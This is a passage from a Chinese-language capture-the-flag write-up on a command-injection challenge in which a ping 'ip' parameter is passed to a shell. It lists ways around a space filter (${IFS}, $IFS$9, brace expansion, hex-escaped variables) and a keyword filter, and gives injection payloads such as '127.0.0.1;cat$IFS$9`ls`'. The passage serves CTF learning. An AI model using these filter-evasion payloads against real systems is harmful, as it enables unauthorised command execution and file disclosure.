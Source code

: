 ![在这里插入图片描述](img/9e4375ac890555c5310896b55c9bdb97.png)
空格被过滤掉了，参考了一下大佬博客这里介绍一下绕过空格的姿势

```
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt: $IFS$9 $9指传过来的第9个参数
cat<flag.txt
cat<>flag.txt
kg=$'\x20flag.txt'&&cat$kg
(\x20转换成字符串就是空格，这里通过变量的方式巧妙绕过) 
```

![在这里插入图片描述](img/c8713efcb11179158784890a80edb0a6.png)
发现flag被过滤掉了，这里可以采用拼接的方法
构造playload:`127.0.0.1;a=g;cat$IFS$9la$a.php`
![在这里插入图片描述](img/a58f49ac854e8ad8905528dabfba5619.png)

这里我再提供一种方法
**内联函数：将指定的函数体插入并取代每一处调用该函数的地方。
反引号在linux中作为内联执行，执行输出结果。也就是说**

```
cat `ls` 

构造payload /?ip=127.0.0.1;cat$IFS$9`ls` 
```

# [BJDCTF2020]Easy MD5 1
